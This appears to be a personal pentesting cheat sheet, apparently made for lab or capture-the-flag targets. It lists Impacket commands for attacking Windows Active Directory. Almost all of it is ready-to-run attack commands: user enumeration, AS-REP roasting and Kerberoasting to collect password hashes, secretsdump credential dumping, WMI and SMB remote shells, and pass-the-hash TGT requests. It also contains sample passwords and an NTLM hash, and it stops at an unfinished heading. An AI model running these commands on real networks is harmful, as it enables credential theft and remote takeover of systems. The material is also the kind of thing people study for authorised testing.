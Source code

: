 #### Impacket Attacks

Get users:

```bash
impacket-GetADUsers -dc-ip $ip "exampleH.example/" -all
impacket-GetADUsers -dc-ip 192.168.214.122 exampleH.example/fmcsorley:CrabSharkJellyfish192 -all
```

AS-REP Roasting:

```bash
# Searches for all vulnerable users
GetNPUsers.py "EGOTISTICAL-BANK.LOCAL/fsmith"
GetNPUsers.py help.htb/ -dc-ip $ip -request
GetNPUsers.py -request -format hashcat -outputfile asrep.txt -dc-ip $ip 'DOMAIN/'
```

Kerberoasting:

```bash
impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip $ip '$dom/'
impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip $ip $dom/user:password
```

Dump hashes for users, needs admin or sam/security/system files:

```bash
impacket-secretsdump admin:password@$ip -outputfile hashes
/opt/impacket/examples/secretsdump.py -sam sam -security security -system system LOCAL
```

WMI shell:

```bash
impacket-wmiexec forest/bob:'password'@$ip
```

SMB shell:

```bash
smbexec.py test.local/john:password123@$ip
```

#### ntpdate

Whenever you're pentesting a windows network or computer, just fucking take the time to run:

```bash
sudo ntpdate $ip
```

####  Logins not Working with Password? Try with TGT!

Go to https://codebeautify.org.

```bash
getTGT.py $dom/john -dc-ip $ip -hashes :6DFCB20C87D04F9A4F9605F2413395D4
```

#### Targeted Kerberoasting ??
